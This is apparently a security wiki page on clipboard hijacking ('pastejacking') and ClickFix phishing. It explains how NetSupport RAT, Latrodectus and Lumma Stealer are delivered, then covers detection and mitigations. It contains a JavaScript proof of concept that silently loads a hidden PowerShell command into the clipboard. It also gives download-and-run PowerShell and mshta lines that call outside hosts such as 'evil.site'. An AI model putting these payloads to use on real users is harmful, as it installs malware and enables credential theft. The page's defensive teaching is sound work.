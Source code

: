 # Clipboard Hijacking (Pastejacking) Attacks

> "Never paste anything you did not copy yourself." – old but still valid advice

## Overview

Clipboard hijacking – also known as *pastejacking* – abuses the fact that users routinely copy-and-paste commands without inspecting them. A malicious web page (or any JavaScript-capable context such as an Electron or Desktop application) programmatically places attacker-controlled text into the system clipboard. Victims are encouraged, normally by carefully crafted social-engineering instructions, to press **Win + R** (Run dialog), **Win + X** (Quick Access / PowerShell), or open a terminal and *paste* the clipboard content, immediately executing arbitrary commands.

Because **no file is downloaded and no attachment is opened**, the technique bypasses most e-mail and web-content security controls that monitor attachments, macros or direct command execution. The attack is therefore popular in phishing campaigns delivering commodity malware families such as NetSupport RAT, Latrodectus loader or Lumma Stealer.

## JavaScript Proof-of-Concept

```html
<!-- Any user interaction (click) is enough to grant clipboard write permission in modern browsers -->
<button id="fix" onclick="copyPayload()">Fix the error</button>
<script>
function copyPayload() {
  const payload = `powershell -nop -w hidden -enc <BASE64-PS1>`; // hidden PowerShell one-liner
  navigator.clipboard.writeText(payload)
    .then(() => alert('Now press  Win+R , paste and hit Enter to fix the problem.'));
}
</script>
```

Older campaigns used `document.execCommand('copy')`, newer ones rely on the asynchronous **Clipboard API** (`navigator.clipboard.writeText`).

## The ClickFix / ClearFake Flow

1. User visits a typosquatted or compromised site (e.g. `docusign.sa[.]com`)
2. Injected **ClearFake** JavaScript calls an `unsecuredCopyToClipboard()` helper that silently stores a Base64-encoded PowerShell one-liner in the clipboard.
3. HTML instructions tell the victim to: *“Press **Win + R**, paste the command and press Enter to resolve the issue.”*
4. `powershell.exe` executes, downloading an archive that contains a legitimate executable plus a malicious DLL (classic DLL sideloading).
5. The loader decrypts additional stages, injects shellcode and installs persistence (e.g. scheduled task) – ultimately running NetSupport RAT / Latrodectus / Lumma Stealer.

### Example NetSupport RAT Chain

```powershell
powershell -nop -w hidden -enc <Base64>
# ↓ Decodes to:
Invoke-WebRequest -Uri https://evil.site/f.zip -OutFile %TEMP%\f.zip ;
Expand-Archive %TEMP%\f.zip -DestinationPath %TEMP%\f ;
%TEMP%\f\jp2launcher.exe             # Sideloads msvcp140.dll
```

* `jp2launcher.exe` (legitimate Java WebStart) searches its directory for `msvcp140.dll`.
* The malicious DLL dynamically resolves APIs with **GetProcAddress**, downloads two binaries (`data_3.bin`, `data_4.bin`) via **curl.exe**, decrypts them using a rolling XOR key `"https://google.com/"`, injects the final shellcode and unzips **client32.exe** (NetSupport RAT) to `C:\ProgramData\SecurityCheck_v1\`.

### Latrodectus Loader

```
powershell -nop -enc <Base64>  # Cloud Identificator: 2031
```

1. Downloads `la.txt` with **curl.exe**
2. Executes the JScript downloader inside **cscript.exe**
3. Fetches an MSI payload → drops `libcef.dll` besides a signed application → DLL sideloading → shellcode → Latrodectus.

### Lumma Stealer via MSHTA

```
mshta https://iplogger.co/xxxx =+\\xxx
```

The **mshta** call launches a hidden PowerShell script that retrieves `PartyContinued.exe`, extracts `Boat.pst` (CAB), reconstructs `AutoIt3.exe` through `extrac32` & file concatenation and finally runs an `.a3x` script which exfiltrates browser credentials to `sumeriavgv.digital`.

## Detection & Hunting

Blue-teams can combine clipboard, process-creation and registry telemetry to pinpoint pastejacking abuse:

* Windows Registry: `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU` keeps a history of **Win + R** commands – look for unusual Base64 / obfuscated entries.
* Security Event ID **4688** (Process Creation) where `ParentImage` == `explorer.exe` and `NewProcessName` in { `powershell.exe`, `wscript.exe`, `mshta.exe`, `curl.exe`, `cmd.exe` }.
* Event ID **4663** for file creations under `%LocalAppData%\Microsoft\Windows\WinX\` or temporary folders right before the suspicious 4688 event.
* EDR clipboard sensors (if present) – correlate `Clipboard Write` followed immediately by a new PowerShell process.

## Mitigations

1. Browser hardening – disable clipboard write-access (`dom.events.asyncClipboard.clipboardItem` etc.) or require user gesture.
2. Security awareness – teach users to *type* sensitive commands or paste them into a text editor first.
3. PowerShell Constrained Language Mode / Execution Policy + Application Control to block arbitrary one-liners.
4. Network controls – block outbound requests to known pastejacking and malware C2 domains.

## Related Tricks

* **Discord Invite Hijacking** often abuses the same ClickFix approach after luring users into a malicious server:
  
[[discord-invite-hijacking.md]]

## References

- [Fix the Click: Preventing the ClickFix Attack Vector](https://unit42.paloaltonetworks.com/preventing-clickfix-attack-vector/)
- [Pastejacking PoC – GitHub](https://github.com/dxa4481/Pastejacking)

